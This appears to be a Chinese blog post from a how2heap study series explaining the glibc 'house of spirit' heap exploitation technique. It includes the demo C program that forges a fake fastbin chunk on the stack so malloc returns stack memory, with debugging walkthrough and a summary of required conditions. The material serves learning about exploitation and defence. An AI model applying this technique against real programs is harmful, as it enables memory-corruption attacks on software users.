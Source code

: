 ```yaml
---
title: house_of_spirit
date:  2020-08-13 09:43:41
updated:  2020-08-13 09:43:41
tags:
    - heap
    - pwn
    - house_of_spirit
categories: 
	- 二进制安全
	- how2heap
use:
  - Valine
text: true
lazyload: true
count: true
---
```


# 源码

```c
#include <stdio.h>
#include <stdlib.h>

int main()
{
    fprintf(stderr, "This file demonstrates the house of spirit attack.\n");

    fprintf(stderr, "Calling malloc() once so that it sets up its memory.\n");
    malloc(1);

    fprintf(stderr, "We will now overwrite a pointer to point to a fake 'fastbin' region.\n");
    unsigned long long *a;
    // This has nothing to do with fastbinsY (do not be fooled by the 10) - fake_chunks is just a piece of memory to fulfil allocations (pointed to from fastbinsY)
    unsigned long long fake_chunks[10] __attribute__ ((aligned (16)));

    fprintf(stderr, "This region (memory of length: %lu) contains two chunks. The first starts at %p and the second at %p.\n", sizeof(fake_chunks), &fake_chunks[1], &fake_chunks[9]);

    fprintf(stderr, "This chunk.size of this region has to be 16 more than the region (to accommodate the chunk data) while still falling into the fastbin category (<= 128 on x64). The PREV_INUSE (lsb) bit is ignored by free for fastbin-sized chunks, however the IS_MMAPPED (second lsb) and NON_MAIN_ARENA (third lsb) bits cause problems.\n");
    fprintf(stderr, "... note that this has to be the size of the next malloc request rounded to the internal size used by the malloc implementation. E.g. on x64, 0x30-0x38 will all be rounded to 0x40, so they would work for the malloc parameter at the end. \n");
    fake_chunks[1] = 0x40; // this is the size

    fprintf(stderr, "The chunk.size of the *next* fake region has to be sane. That is > 2*SIZE_SZ (> 16 on x64) && < av->system_mem (< 128kb by default for the main arena) to pass the nextsize integrity checks. No need for fastbin size.\n");
        // fake_chunks[9] because 0x40 / sizeof(unsigned long long) = 8
    fake_chunks[9] = 0x1234; // nextsize

    fprintf(stderr, "Now we will overwrite our pointer with the address of the fake region inside the fake first chunk, %p.\n", &fake_chunks[1]);
    fprintf(stderr, "... note that the memory address of the *region* associated with this chunk must be 16-byte aligned.\n");
    a = &fake_chunks[2];

    fprintf(stderr, "Freeing the overwritten pointer.\n");
    free(a);

    fprintf(stderr, "Now the next malloc will return the region of our fake chunk at %p, which will be %p!\n", &fake_chunks[1], &fake_chunks[2]);
    fprintf(stderr, "malloc(0x30): %p\n", malloc(0x30));
}
```

# 运行结果

![image.png](https://i.loli.net/2020/11/17/U3LFzwqlJ1CpeZA.png)

# 分析&调试

就是在栈上伪造了chunk，然后free掉，之后再malloc就会malloc到栈上

调试：

该开始先malloc（1）：

![image.png](https://i.loli.net/2020/11/17/WUkOdSMvqGfwxmT.png)

之后声明一个指针变量a和fake_chunks[10]数组（对齐的）:

这时a的值为0，地址为0x7fffffffdc18

fake_chunks的地址为0x7fffffffdc20,紧接着a

![image.png](https://i.loli.net/2020/11/17/vbNyKwHMRa9cDep.png)

接下来我们要伪造chunk了

首先fack_chunks[1]=40，这就是伪造的第一个chunk的伪造的size字段，伪造了大小为40

![image.png](https://i.loli.net/2020/11/17/qBP15o8WTbSlkeD.png)

然后fake_chunks[9] = 0x1234，这就是伪造的第二个chunk的伪造的size字段的值

到此为止，两个chunk大小伪造好了

![image.png](https://i.loli.net/2020/11/17/NdjrBPn6FMD2iIw.png)

接下来将a赋值为我们伪造的第一个chunk的mem指针的值，也就是0x7fffffffdc30,这样a就指向了我们伪造的第一个chunk

![image.png](https://i.loli.net/2020/11/17/N7qd9zVJegPQ3GU.png)

这之后我们free(a)

就会发现我们伪造的chunk成功到了fastbin中

![image.png](https://i.loli.net/2020/11/17/xqc49Jg5nt6CdZX.png)

这样的话我们接下来再进行malloc相同大小就会malloc到栈上了，我们伪造的chunk成功被malloc出去

![image.png](https://i.loli.net/2020/11/17/hOMXdwje78kmsaS.png)

# 总结

- 发生栈溢出时，若是能覆盖某个即将free的指针，我们可以将这个指针改成栈上的地址，并且在栈上这个地址上伪造一个chunk，free后再malloc相同大小就malloc到伪造的chunk了
- size字段的三个标志位前两个必须是0（否则就到不了fast bin里了）
- size本身需要符合fast bin的大小
- next chunk大小也必须>2*SIZE_SZ&&<system_mem,否则会报invalid next size的错误。(64位下就是16B<<128kb)